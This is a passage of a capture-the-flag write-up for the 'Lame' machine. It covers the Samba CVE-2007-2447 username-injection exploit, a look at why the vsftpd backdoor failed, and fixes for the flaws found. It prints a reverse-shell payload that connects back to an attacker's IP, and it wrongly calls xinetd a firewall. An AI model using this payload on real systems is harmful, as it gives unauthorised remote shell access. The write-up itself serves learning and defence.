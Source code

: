 ```
While performing login through smbclient, we can provide the following string *"/=nohup bash -i >& /dev/tcp/Attacker_IP/4444 0>&1* to spawn a reverse shell on our IP at 4444 port number. The value */=nohup* makes all this possible. 


## BONUS: Why vsftpd exploit was not working

Once I got the root access and when I was finished with the flags, I wanted to see that why vsftpd's exploit was not working. It is out of the scope of machine-pwning, but it is always a good practice to see where you went wrong. I started scanning the ports that were listening within the system, and now I am inside the target so I might see more listening ports than the output we got from nmap. It is because some of the ports might be filtered by firewall and standard nmap scan will not display them.

I performed the following command on the target system to look for listening ports:
`netstat -tnlp`

**Command Explaination:**
1. **netstat:** a network utility used to display network connections, routing tables, interface statistics, and multicast memberships.
2. **-t:** displaying TCP connections
3. **-n:** Displays numerical addresses and port numbers
4. **-l:** Filters the output to show listening ports
5. **-p:** This option shows the process ID (PID) and the name of the program that is using each socket

![](images-lame/12.png)

On the above image, I have marked a specific port with red line. It is port 21, which we saw during the nmap scan as **vsftpd**, but here we can see that the PID and name shown is **5440 and xinetd**. Weird, right? We were able to access ftp when we tried anonymous login, but there is no vsftpd here, why? I had a slight doubt, that this service is a firewall and after some googling, I was confirmed that **xinetd** is a firewall, that uses things like TCP wrapper to avoid malicious connections on a port or service. When an organization is running a vulnerable port/service, but they cannot update it due to the dependencies of other things on it, they generally cover the port with a firewall service that will avoid malicious traffic coming at the port. Fortunately, for us we are already inside the target and hence we can use vsftpd's exploit from within. 

## Vulnerabilities fix

We found 3 known vulnerabilities while pwning the system, I will here also refer on how to avoid these vulnerabilities and make your system stronger. 

### FTP anonymous login
Anonymous login gave us nothing here, but many a times it can be dangerous. Best practice is to disable anonymous login from the configuration file of vsftpd or any other ftp service. I have attached an image below with a configuration file that do not allow anonymous login.

![](images-lame/14.png)


As shown in the image, the configuration file has `anonymous_enable=NO` which will disable anonymous login over ftp service.

### FTP CVE-2011-2523

There was another well-known vulnerability in vsftpd 2.3.4 that we tried to exploit, but the silly firewall came in between. The recommended mitigation for this is to update the version of vsftpd service (above 2.3.4), and for some critical reasons if you cannot update it, then wrap the service with a firewall. 

### Samba CVE-2007-2447

```